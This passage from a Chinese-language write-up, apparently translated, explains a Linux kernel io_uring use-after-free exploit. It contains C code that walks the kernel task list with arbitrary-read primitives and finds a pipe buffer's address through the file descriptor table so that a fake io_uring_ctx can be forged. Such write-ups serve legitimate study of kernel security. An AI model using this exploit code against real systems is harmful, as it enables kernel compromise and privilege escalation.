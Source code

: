```
    // Read the comm
    read_comm_at(current + COMM_OFF, current_comm);
    //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

    // While we don't have NULL, traverse the list
    while (task_valid(current))
    {
        current_next = read_8_at(current_next);
        current = current_next - TASKS_NEXT_OFF;

        if (current == g_init_task) { break; }

        // Read the comm
        read_comm_at(current + COMM_OFF, current_comm);
        //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

        // If we find the target comm, save it
        if (!strcmp(current_comm, TARGET_TASK))
        {
            g_target_task = current;
        }

        // If we find our target comm, save it
        if (!strcmp(current_comm, OUR_TASK))
        {
            g_our_task = current;
        }
    }
}
```

您还可以看到，我们不仅找到了目标任务，还在内存中找到了自己的任务。这对我选择利用这个漏洞的方法很重要，因为我们需要在内存中伪造一些对象，比如 io_uring_ctx。通常情况下，我们需要在内核堆中伪造一些对象，然后通过泄漏发现它们的地址。在我的例子中，我有一个 4096 字节内存的管道缓冲区需要利用。唯一的问题是，我不知道它在哪里。但我知道它有一个打开的文件描述符，而且我知道每个任务的文件成员中都有一个[文件描述符表](https://elixir.bootlin.com/linux/v5.19/source/include/linux/fdtable.h#L49)。在打印了一些偏移量之后，我就能遍历我自己任务的文件描述符表，并得知我的管道缓冲区的地址。这是因为管道缓冲区的页面显然是页面对齐的，所以我可以直接将从文件描述符表中读取的地址作为 UAF 文件的地址进行页面对齐。因此，我现在可以准确知道内存中管道缓冲区的位置，也知道 UAF 结构文件位于该页面的哪个偏移位置。我有一个小辅助函数，用于将 "划痕空间 "区域地址设置为全局地址，然后使用该内存设置我们的假 io_uring_ctx。你可以在这里看到这些函数，首先是找到我们的管道缓冲区地址：

```
void find_pipe_buf_addr(void)
{
    // Get the base of the files array
    uint64_t files_ptr = read_8_at(g_file_array);
    
    // Adjust the files_ptr to point to our fd in the array
    files_ptr += (sizeof(uint64_t) * g_uaf_fd);

    // Get the address of our UAF file struct
    uint64_t curr_file = read_8_at(files_ptr);

    // Calculate the offset
    g_off = curr_file & 0xFFF;

    // Set the globals
    g_file_addr = curr_file;
    g_pipe_buf = g_file_addr - g_off;

    return;
}
```
